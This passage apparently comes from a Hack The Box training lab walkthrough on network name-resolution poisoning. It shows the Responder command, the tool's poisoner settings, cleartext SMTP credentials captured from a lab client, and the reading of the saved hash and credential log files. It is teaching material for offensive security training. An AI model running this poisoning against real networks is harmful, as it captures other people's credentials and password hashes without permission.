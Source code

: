 ```shell-session

[+] Listening for events...
```

After a while, students will stumble across the authentication using cleartext credentials for SMTP.

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...

[SMTP] Cleartext Client   : fe80::354e:5281:5f46:fbbf
[SMTP] Cleartext Username : 'smtptest
[SMTP] Cleartext Password : SMTP_PlainText_Creds'
```

Additionally, if students miss the poisoned request, they can review the Responder's generated log file in the tool's `logs/` directory:

Code: shell

```shell
ls logs/
cat logs/SMTP-Cleartext-ClearText-fe80\:\:354e\:5281\:5f46\:fbbf.txt 
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ ls logs/

Analyzer-Session.log
Config-Responder.log
HTTP-NTLMv2-fe80::354e:5281:5f46:fbbf.txt
MSSQL-NTLMv2-172.16.117.3.txt
Poisoners-Session.log
Responder-Session.log
SMB-NTLMv2-SSP-172.16.117.50.txt
SMB-NTLMv2-SSP-fe80::452:13a7:ee9c:b359.txt
SMTP-Cleartext-ClearText-fe80::354e:5281:5f46:fbbf.txt

htb-student@ubuntu:~/tools/Responder$ cat logs/SMTP-Cleartext-ClearText-fe80\:\:354e\:5281\:5f46\:fbbf.txt

b"'smtptest":b"SMTP_PlainText_Creds'"
```